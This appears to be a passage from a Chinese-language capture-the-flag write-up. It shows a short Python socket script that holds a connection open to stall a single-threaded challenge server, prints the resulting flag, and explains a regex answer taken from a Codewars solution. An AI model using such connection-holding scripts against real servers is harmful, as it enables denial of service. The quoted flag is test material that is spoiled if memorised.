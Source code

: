 第一小题因为代码没写多线程处理，所以我们不妨写一个“流氓请求”，蹲着茅坑不拉屎，等到flag就行了。

```bash
#!/bin/sh

python3 -c "import socket, time; s = socket.socket(socket.AF_INET, socket.SOCK_STREAM); s.connect(('127.0.0.1', 8000)); print('Connected.'); time.sleep(60); s.close(); print('Connection closed.')"
```

别问我为什么用`python -c`，因为我用python的shebang不好使。

得到第一个flag: `flag{wa1t_no0O0oooO_mY_b1azIngfA5t_raust_f11r5erVer_df46c1d448}`

第二小题我知道是CVE，并且我确信我有了一个奇妙的解法，可是这里的空间太小，写不下。

## 强大的正则表达式

本题解探讨一下不知道DFA的人如何解这道题的第二问，并且我只保留了第二问提交的正则表达式。

Google搜一下regex binary string divisible by n，找到这个Codewars的题目。
![codewars](image-16.png)

点进Solutions，找到符合题目要求的代码，直接生成一个就好了。

![sol](image-17.png)

找到这位仁兄的代码，复制到浏览器console，调用函数，提交即可。
